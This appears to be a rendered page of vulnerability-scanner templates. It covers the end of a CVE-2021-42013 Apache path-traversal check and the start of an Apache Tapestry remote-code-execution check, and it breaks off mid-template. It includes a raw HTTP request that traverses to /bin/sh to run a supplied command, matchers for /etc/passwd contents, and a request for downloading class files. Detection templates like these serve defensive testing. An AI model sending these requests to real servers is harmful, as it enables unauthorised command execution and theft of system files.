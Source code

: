 ```
POST /cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}
Content-Type: application/x-www-form-urlencoded

echo Content-Type: text/plain; echo; {{cmd}}


```

### Matchers

**Type - regex**

- name - LFI
- regex
  1. root:.\*:0:0:

**Type - word**

- name - RCE
- words
  1. CVE-2021-42013

---

# Apache Tapestry - Remote Code Execution

## Description

- Apache Tapestry contains a critical unauthenticated remote code execution vulnerability. Affected versions include 5.4.5, 5.5.0, 5.6.2 and 5.7.0. Note that this vulnerability is a bypass of the fix for CVE-2019-0195. Before that fix it was possible to download arbitrary class files from the classpath by providing a crafted asset file URL.

- severity - critical
- tags - cve,cve2021,apache,tapestry

## Requests

### Step - 1

```
GET /assets/app/something/services/AppModule.class/ HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}

```

### Step - 2
